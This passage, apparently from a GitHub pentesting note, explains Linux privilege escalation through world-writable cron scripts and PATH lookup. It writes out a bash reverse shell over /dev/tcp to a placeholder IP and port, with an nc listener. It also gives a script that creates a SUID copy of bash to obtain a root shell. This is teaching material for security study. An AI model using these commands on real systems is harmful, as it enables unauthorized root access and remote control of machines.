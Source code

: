   - `compress.sh` script will be searched only in `/usr/local/bin` path, because it's explicit. 
  - `overwrite.sh` script will be searched in all paths specified in `PATH` variable, so: `/usr/local/sbin`, `/usr/local/bin`, `/usr/sbin`, `/usr/bin`, `/sbin` and `/bin`. If the shell (`sh` in this case) finds the script, it executes it.

  - If one of these **cron jobs are world-writable** and **you're not root**, it's possible to modify and exploit them. For example we could modify `overwrite.sh` with a reverse shell like this this one: 
  ```
  #!/bin/bash
  bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
  ```
  - Then `nc -lvnp <PORT>` on your own Terminal to start a NetCat reverse shell.<br><br>
  - If one of these **cron jobs are world-writable and searched in `/home/user` path** and **you're not root**, it's possible to modify and exploit them to get a root shell in this way:
  ```
  #!/bin/bash
  mkdir /tmpdir
  cp /bin/bash /tmpdir/rootbash
  chmod +xs /tmpdir/rootbash
  ```
  - This script will copy the default `/bin/bash` shell to a temporary directory and will give it execution and suid permissions (it assumes the privileges of the user who owns the file, **root** in this case). In this way, we can run a root shell, so we escalated privileges!
    - If you type `whoami`, you should read _root_.
    - You can choose any shell you want (`/bin/bash`, `/bin/sh`, `/bin/zsh`).

    ### Local test
    - Create `script.sh` in your home folder and paste the previous bash code,
    - Run it with `sudo script.sh`. It should create `/tmpdir/rootbash` as said before.
    - Run the shell with `/tmpdir/rootbash`. It should open a shell as root. 
    - Check your role with `whoami`.

